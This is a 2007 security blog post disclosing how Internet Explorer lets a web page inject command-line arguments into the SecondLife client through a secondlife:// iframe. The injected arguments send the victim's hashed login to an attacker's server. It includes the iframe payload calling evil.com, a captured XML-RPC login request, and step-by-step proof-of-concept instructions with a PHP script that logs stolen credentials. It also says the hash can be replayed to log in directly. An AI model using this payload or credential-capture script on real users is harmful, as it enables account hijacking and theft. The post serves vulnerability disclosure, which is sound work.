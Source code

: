 ```yaml
---
title: IE Pwns SecondLife
author: petko-d-petkov
date: Sun, 16 Sep 2007 10:37:53 GMT
template: this/views/post.jade
category: fucked
---
```


First of all, I must say that I am not really a **bug hunter**. I am more on the side of **tactical exploitation** - you know figuring out your way through the system even if it requires bug hunting and reverse engineering at the end. Anyway, the news is that IE (Internet Explorer) pwns [SecondLife](http://www.secondlife.com).

Before going into details why and how it happens, I would like to bring your attention on SecondLife for a moment. For those of you who don't follow developing technologies, SecondLife is a massive virtual world located on a couple of hundred workstations on-line. The cool thing about SecondLife is that you can do all kinds of things, like expressing your artistic side, communicating and of course making business. There is some money into SecondLife. Not that long time ago, there was this girl who made **$1000000** (**a million**) out of the on-line world. This means that crooks maybe after your virtual persona rather then your physical self. Therefore, security in virtual worlds may become almost as important as security in the physical world.

Now let's get back to the real issue. Attackers can steal the victim's login credentials, therefore hijacking their virtual, SecondLife persona, by simply tricking the victim into visiting a malicious Web page. Here is an example:

```html
<iframe src='secondlife://" -autologin -loginuri "http://evil.com/sl/record-login.php'></iframe>
```

Upon visiting the malicious page, the SecondLife client will launch and try to login automatically (**-autologin**) via the CGI located at _http://evil.com/sl/record-login.php_. At that moment, the following request is generated to the malicious CGI script. Yes, it is XML-RPC remote call:

```php
[HTTP_RAW_POST_DATA] => <methodCall>
    <methodName>login_to_simulator</methodName>
    <params>
        <param>
            <value>
                <struct>
                    <member>
                        <name>first</name>
                        <value>
                        <string>Elm</string>
                    </value>
                </member>
                <member>
                    <name>last</name>
                    <value>
                    <string>Blanco</string>
                </value>
            </member>
            <member>
                <name>passwd</name>
                <value>
                    <string>$1$**[MD5 Hash of the password here]**</string>
                </value>
            </member>
            <member>
                <name>start</name>
                <value>
                    <string>last</string>
                </value>
            </member>
            <member>
                <name>version</name>
                <value>
                    <string>1.18.2.0</string>
                </value>
            </member>
            <member>
                <name>channel</name>
                <value>
                    <string>Second Life Release</string>
                </value>
            </member>
            <member>
                <name>platform</name>
                <value>
                    <string>Win</string>
                </value>
            </member>
            ...
            ...
            ...
</methodCall>
```

Notice **[MD5 Hash of the password here]** place holder. This is where the user password is located. The password is MD5 hashed for security reasons. Well, this is definitely a good thing, although completely pointless since there are plenty of rainbow tables out there, which attackers can use to convert the hash back to a normal string.

> Keep in mind that most attackers don't even have to convert the hash back to a password string. Attackers can login with the hash itself by forging a request to one of the SecondLife authentication servers. The unhashed password is only needed in situations where the attacker wants to explore other on-line service the victim is currently registered with.

Unfortunately, I cannot construct on-line proof of concept, due to the fact that I need to expose this server to all sorts of attacks, but you can try to repeat my steps. Here is how you can do it:

1. **Get** Apache with PHP
2. **Put** the following script into a file called _login.php_:
```php
<?php
ob_start();
print_r($GLOBALS);
error_log(ob_get_contents(), 0);
ob_end_clean();
?>
```
3. **Tail** -f the PHP error log file. Or if you don't know what I am talking about, just skip this step.
4. **Make** a page with the following HTML body:
```html
<iframe src='secondlife://" -autologin -loginuri "http://localhost/login.php'></iframe>
```
5. **Open** the page inside Internet Explorer (both IE6 and IE7 are exploitable).
6. **After** the SecondLife client fails to login, you will get a message within your php error log, which gives you the credentials plus some other useful info about the victim.

_It is that simple. It is automatic and the user doesn't have to do anything. In other words, no user interaction is required. I would rate this issue as Medium risk although if the victim have a lot of Linden dollars ($L) then the situation becomes quite critical (from personal point of view). At the time of writing 1$ can be exchanged for 268.15$L._
